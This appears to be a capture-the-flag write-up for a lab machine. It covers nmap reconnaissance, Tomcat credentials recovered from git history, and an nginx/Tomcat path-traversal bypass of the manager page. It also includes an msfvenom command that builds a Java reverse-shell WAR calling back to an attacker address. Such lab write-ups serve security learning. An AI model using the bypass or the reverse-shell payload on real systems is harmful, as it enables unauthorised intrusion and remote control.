 ```yaml
---
title: Another Sample Page
published: true
---
```


## Recon

```bash
nmap -sC -sV -Ao nmap 10.10.10.250
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 08:33 CEST
Nmap scan report for 10.10.10.250
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node01j0kvq70qbpqj11e6pkvdnh6s32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:56 GMT
|     Set-Cookie: JSESSIONID=node05fxtqecve3hh15vos2gljmegx0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4:
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5:
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=9/2%Time=6311A3A4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Fri,\x2002\x20
SF:Sep\x202022\x2006:32:56\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node05fxtqe
SF:cve3hh15vos2gljmegx0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,
SF:\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,106,"HTTP
SF:/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x2
SF:0GMT\r\nSet-Cookie:\x20JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1\.node0;
SF:\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x20G
SF:ET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,AD
SF:,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/html;
SF:charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n
SF:\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version</p
SF:re>")%r(FourOhFourRequest,F5,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:
SF:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x20GMT\r\nSet-Cookie:\x20JSES
SF:SIONID=node01j0kvq70qbpqj11e6pkvdnh6s32\.node0;\x20Path=/;\x20HttpOnly\
SF:r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-
SF:Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(So
SF:cks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400\
SF:x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;chars
SF:et=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<
SF:h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CN
SF:TL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\
SF:x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConte
SF:nt-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x204
SF:00</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## Interpretation

There are three open ports: 22, 443 and 8080.

## Port 443

The website on port 433 seems to be not vulnerable. 
There are two input possibilities but basic xss, sqli testing reveals nothing interesting. 

## Port 8080

The application on port 8080 is GitBucket. Basic or default credentials are not wirking to login so creating a new account seems to be the way to go. We have access to two repositories. In the tomcat folder in the `tomcat-users.xml` there is no user entry but the git history reveals a deleted tomcat user with the credentials: `tomcat:42MrHBf*z8{Z%`. This password can be reused for the GitBucket service as user luis but this had no further impact. More looking around reveals that there is a nginx reverse proxy running which blocks requests to for example `/manager/html`

## Path traversal

This combination of tomcat and nginx is most often vulnerable to a path traversal attack as explained [here](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). `10.10.10.250/manager;name=dennis/html/` did the trick because `/manager;name=dennis/html` doesn't match the pattern `/manager/html` checked by nginx so it forwards the request to the tomcat. The application server normalizes the reqest and throws the `;name=dennis`-part away so tomcat sees only `/manager/html`. For the managersite the previous found credentials are working so we have access to the admin panel. 

## Exploit

Creating an exploit which we can upload to the tomcat. 
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.4 lport=4242 -f war -o rev.war7
```

Upload the war-File to the adminpanel and deploy it to the tomcat. 

### Notes to deploying to tomcat

1. Logically the request have to be intercepted with burpsuite because the deploy-Button has links to `/manager/html/upload...` which is blocked by nginx. So the path traversal should again be applied.
2. I had to add the host name to my `/etc/hosts`-file but I don't know why.




    

